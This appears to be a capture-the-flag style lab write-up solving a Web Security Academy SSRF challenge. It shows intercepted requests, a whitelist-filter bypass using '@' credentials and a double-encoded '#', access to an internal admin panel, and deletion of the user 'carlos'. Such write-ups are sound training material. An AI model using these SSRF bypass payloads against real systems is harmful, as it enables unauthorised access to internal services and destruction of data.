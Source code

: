 
- **Author:** sonyahack1
- **Date:** 24.04.2025

---

## Intercept request

```html

POST /product/stock HTTP/2
Host: 0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Cookie: session=***********************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```
```none

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

```
> with 'Hackvertor' extension

```none
stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>
```

> I need to bypass an anti-SSRF filter like white-based input filter
> The server expects to receive a request with data that is allowed to be processed. For example, they are on a white list of allowed values.

> Ok. I will try some methods that probably work.

> I know that there is logic on the server side to check the domain that the request comes to. For example, if i try to change "stock.weliketoshop.net"
> to any other domain, then i will get an error from the server that the request should be made only to "stock.weliketoshop.net".

> For example:
> Request

```none

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```
> Response

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"

```
> So. There are several ways that can help to trick the server filter and make it make a request to an allowed domain. It is important to remember that I am trying to
> bypass the filtering at the level of the application code itself, so that the server makes the request further away from itself, and then the request itself with the
> parsing function and url-encoding. 

> When a URL has '@', everything before the '@' is considered credentials (login and password). And everything after the '@' is considered the real host.
> The '#' symbol in the URL is the beginning of a fragment that is not sent at all. It is only for browsers

> Ok. add the '@' symbol before expected-host and send the request

```none

stockApi=<@urlencode>http://localhost@stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>

```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

395

```
> Ok. Since the server handles such a request successfully, ignoring what is specified before the @ symbol, I just need to remove the extra part of the URL
> fragment and leave only 'http://localhost/admin'.

> add the double url-encoded "#" symbol, because after the request, decoding will be done during parsing.



```none
stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```

![admin_interface]('/screenshots/admin_interface.png')

> delete Carlos user


```none
stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

![lab_solved]('/screenshots/lab_solved.png')
